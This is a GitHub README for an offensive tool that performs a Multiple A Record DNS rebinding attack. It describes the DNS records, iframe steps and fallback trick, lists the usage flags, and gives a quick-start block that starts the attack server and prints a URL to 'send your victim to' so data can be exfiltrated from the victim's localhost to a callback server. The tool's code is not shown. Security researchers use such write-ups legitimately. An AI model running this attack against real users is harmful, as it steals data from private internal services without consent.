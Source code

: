 ## rebindMultiA
`rebindMultiA` is a tool to perform a Multiple A Record rebind attack. 

`rebindmultia.com` is a domain that I've set up to assist with these attacks. It makes every IP its own authoritative nameserver for the domain `[IP].ns.rebindmultia.com`. For example, `13.33.33.37.ns.rebindmultia.com`'s authoritative nameserver is `13.33.33.37.ip.rebindmultia.com` which resolves (as you might have guessed) to `13.33.33.37`. 

## Multiple A Record Rebind Attack
A Multiple A Record is a variant of a DNS Rebinding attack that weaponizes an attacker's ability to respond with two IP address in response to a DNS request and the browser's tendency to fallback to the second IP in the DNS response when the first one doesn't respond. In this attack, the attacker will configure a malicious DNS server and two malicious HTTP servers. The DNS server will respond with two A records:
```
127.0.0.1.target.13.33.33.37.ns.rebindmultia.com. 0 IN A 13.33.33.37
127.0.0.1.target.13.33.33.37.ns.rebindmultia.com. 0 IN A 127.0.0.1
```
The victim browser will then connect to the first IP and begin interacting with the attacker's first malicious HTTP server. This server will respond with a page that contains two iframes, one to `/steal` and one to `/rebind`. The `/steal` iframe will load up a malicious page to reach into the second iframe and grab the content. The `/rebind` endpoint, when hit, will issue a 302 redirect to `/` and kill the first malicious HTTP server. As a result, when the browser reaches back out to the attacker's HTTP server, it will be met with a closed port. **As such, it will fallback to the second IP**. Once the target content has been loaded in the second iframe, the first iframe can reach into it, steal the data, and exfiltrate it to the attacker's second malicious HTTP server - the callback server.

**This attack only works in a Windows environment.** Linux and Mac will default to the private IP first and the attacker's server will never be queried. 

## Graphic + Explaination
![Screenshot](rebindMultiA.jpg)
1. The browser resolves the host `127.0.0.1.target.13.33.33.37.ns.rebindmultia.com`.
2. The DNS server (included in `server.py`) parses the requested dns name and returns two A records: `13.33.33.37` and `127.0.0.1`.
3. The victim's browser reaches out the attacker's malicious HTTP server (included in `server.py`) and loads the `/parent` page which has two iframes.
4. The victim's browser loads `/steal` from the attacker's malicious HTTP server.
5. The victim's browser loads `/rebind` which results in a 302 redirect to `/` (the HTTP server will exit after this request).
6. The victim's browser redirect's to `/` per the `302` from the attacker's server.
7. The victim's browser attempts to load `/` from the attacker's (now dead) HTTP server, but fails to do so. 
8. The browser then shifts to the **second** IP in the DNS cache and resolves the hostname to `127.0.0.1`. It then reaches out to that server and loads up the page in the iframe.
9. The attacker's `steal` iframe reaches into the newly loaded second iframe and grabs the content.
10. The attacker's `steal` iframe then sends the results back to the attacker's callback server.

## Usage
```
pip3 install -r requirements.txt
python3 server.py --help
```
```
usage: server.py [-h] [-p PORT] [-c CALLBACK_PORT] [-d DNS_PORT] [-f FILE] [-l LOCATION]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Specify port to attack on targetIp. Default: 80
  -c CALLBACK_PORT, --callback-port CALLBACK_PORT
                        Specify the callback HTTP server port. Default: 31337
  -d DNS_PORT, --dns-port DNS_PORT
                        Specify the DNS server port. Default: 53
  -f FILE, --file FILE  Specify the HTML file to display in the first iframe.(The "steal" iframe). Default: steal.html
  -l LOCATION, --location LOCATION
                        Specify the location of the data you'd like to steal on the target. Default: /
```

If you get this error:
```
┬─[justin@RhynoDroplet:~/p/rebindMultiA]─[14:26:24]─[G:master=]
╰─>$ python3 server.py

Traceback (most recent call last):
  File "server.py", line 2, in <module>
    from http.server import HTTPServer, BaseHTTPRequestHandler, ThreadingHTTPServer
ImportError: cannot import name 'ThreadingHTTPServer'
```
Then you need to use a more up-to-date version of Python. Python 3.7+. 

## Quick Start
This must be executed from publically accessible IP.
```
git clone https://github.com/Rhynorater/rebindMultiA
cd rebindMutliA
pip3 install -r requirements.txt
echo "Send your victim to http://127.0.0.1.target.`curl -s http://ipinfo.io/ip`.ns.rebindmultia.com/parent to exfil 127.0.0.1"
sudo python3 server.py
```
